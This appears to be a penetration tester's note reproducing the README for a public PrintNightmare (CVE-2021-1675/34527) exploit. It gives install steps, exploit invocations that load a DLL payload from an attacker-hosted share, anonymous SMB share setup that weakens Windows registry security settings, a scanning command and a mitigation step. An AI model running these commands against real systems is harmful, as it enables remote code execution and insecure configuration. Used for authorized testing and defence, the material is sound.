 ```yaml
---
category: Uncategorized
tags: [pentest]
created: 2024-12-21

---
```

# CVE-2021-1675 / CVE-2021-34527

https://github.com/cube0x0/CVE-2021-1675

#spooler #printer #cve #exploit

### Patch update

Microsoft has released a patch to mitigate against these attacks but if these values below are present on a machine, then the machine will still be vulnerable

```cmd
REG QUERY "HKLM\Software\Policies\Microsoft\Windows NT\Printers\PointAndPrint"

HKEY_LOCAL_MACHINE\Software\Policies\Microsoft\Windows NT\Printers\PointAndPrint
    RestrictDriverInstallationToAdministrators    REG_DWORD    0x0
    NoWarningNoElevationOnInstall    REG_DWORD    0x1
```

### [](https://github.com/cube0x0/CVE-2021-1675#installation)Installation

Before running the exploit you need to install my version of Impacket and after that you're gucci

```bash
pip3 uninstall impacket
git clone https://github.com/cube0x0/impacket
cd impacket
python3 ./setup.py install
```

### [](https://github.com/cube0x0/CVE-2021-1675#cve-2021-1675py)CVE-2021-1675.py

```bash
usage: CVE-2021-1675.py [-h] [-hashes LMHASH:NTHASH] [-target-ip ip address] [-port [destination port]] target share

CVE-2021-1675 implementation.

positional arguments:
  target                [[domain/]username[:password]@]<targetName or address>
  share                 Path to DLL. Example '\\10.10.10.10\share\evil.dll'

optional arguments:
  -h, --help            show this help message and exit

authentication:
  -hashes LMHASH:NTHASH
                        NTLM hashes, format is LMHASH:NTHASH

connection:
  -target-ip ip address
                        IP Address of the target machine. If omitted it will use whatever was specified as target. This is useful when target is the NetBIOS name
                        and you cannot resolve it
  -port [destination port]
                        Destination port to connect to SMB Server

Example;
./CVE-2021-1675.py hackit.local/domain_user:Pass123@192.168.1.10 '\\192.168.1.215\smb\addCube.dll'
./CVE-2021-1675.py hackit.local/domain_user:Pass123@192.168.1.10 'C:\addCube.dll'
```

### [](https://github.com/cube0x0/CVE-2021-1675#smb-configuration)SMB configuration

Easiest way to host payloads is to use samba and modify `/etc/samba/smb.conf` to allow anonymous access

```bash
[global]
    map to guest = Bad User
    server role = standalone server
    usershare allow guests = yes
    idmap config * : backend = tdb
    smb ports = 445

[smb]
    comment = Samba
    path = /tmp/
    guest ok = yes
    read only = no
    browsable = yes
    force user = smbuser
```

From windows it's also possible

```cmd
mkdir C:\share
icacls C:\share\ /T /grant Anonymous` logon:r
icacls C:\share\ /T /grant Everyone:r
New-SmbShare -Path C:\share -Name share -ReadAccess 'ANONYMOUS LOGON','Everyone'
REG ADD "HKLM\System\CurrentControlSet\Services\LanManServer\Parameters" /v NullSessionPipes /t REG_MULTI_SZ /d srvsvc /f #This will overwrite existing NullSessionPipes
REG ADD "HKLM\System\CurrentControlSet\Services\LanManServer\Parameters" /v NullSessionShares /t REG_MULTI_SZ /d share /f
REG ADD "HKLM\System\CurrentControlSet\Control\Lsa" /v EveryoneIncludesAnonymous /t REG_DWORD /d 1 /f
REG ADD "HKLM\System\CurrentControlSet\Control\Lsa" /v RestrictAnonymous /t REG_DWORD /d 0 /f
# Reboot
```

### [](https://github.com/cube0x0/CVE-2021-1675#scanning)Scanning

We can use `rpcdump.py` from impacket to scan for potential vulnerable hosts, if it returns a value, it could be vulnerable

rpcdump.py @192.168.1.10 | egrep 'MS-RPRN|MS-PAR'

Protocol: [MS-PAR]: Print System Asynchronous Remote Protocol 
Protocol: [MS-RPRN]: Print System Remote Protocol

### [](https://github.com/cube0x0/CVE-2021-1675#mitigation)Mitigation

Disable Spooler service

````cmd
Stop-Service Spooler
REG ADD  "HKLM\SYSTEM\CurrentControlSet\Services\Spooler"  /v "Start" /t REG_DWORD /d "4" /f
````


Last updated: `$= dv.current().file.mtime.toFormat("MMMM dd, yyyy 'at' HH:mm")`
